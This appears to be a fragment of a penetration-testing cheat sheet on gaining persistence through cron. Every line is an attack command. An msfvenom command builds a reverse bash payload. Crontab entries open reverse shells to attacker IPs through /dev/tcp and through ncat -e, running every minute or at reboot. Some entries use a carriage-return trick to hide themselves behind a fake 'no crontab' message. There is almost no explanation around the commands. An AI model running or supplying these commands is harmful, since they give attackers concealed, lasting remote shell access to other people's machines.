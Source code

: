 	>msfvenom -p cmd/unix/reverse_bash LHOST=192.168.0.107 LPORT=12138 -f raw > /var/www/html/shell.sh
	(crontab -l;printf "*/1 * * * * /bin/bash /tmp/shell.sh;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -
![image](/assets/Pentest_Note/master/img/571.png)

	#!bash
	(crontab -l;printf "*/60 * * * * exec 9<> /dev/tcp/192.168.1.1/53;exec 0<&9;exec 1>&9 2>&1;/bin/bash --noprofile -i;\rno crontab for `whoami`%100c\n")|crontab -

	(crontab -l ; echo "@reboot sleep 200 && ncat 192.168.1.2 4242 -e /bin/bash")|crontab 2> /dev/null